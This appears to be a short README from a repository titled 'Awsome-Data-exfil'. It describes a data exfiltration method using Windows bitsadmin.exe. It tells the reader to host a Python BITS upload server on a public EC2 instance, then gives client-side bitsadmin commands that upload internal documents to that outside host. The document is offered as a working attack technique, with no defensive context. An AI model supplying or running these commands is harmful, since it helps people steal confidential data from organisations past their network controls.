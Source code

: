 # Awsome-Data-exfil
Data exfiltration with Bitsadmin.exe

############################################################################
Bitsadmin command to exfiltrate internal data outside the enterprise network

--------------------------------Server-side----------------------------------------------
First things first: Set up an EC2 instance or any server publicly accessible on which python should be installed. Dowmload the python implementation of bitsadmin server.
Host the server on the EC2 instance with command like <python simplebitsServer.py 443>


--------------------------------Client-side----------------------------------------------
bitsadmin /setproxysettings Job PRECONFIG
Bitsadmin /Transfer JOB /PRIORITY HIGH /UPLOAD hxxp://<remoteIP/URL>:<port> C:\User\<path to internal document to exfiltrate>
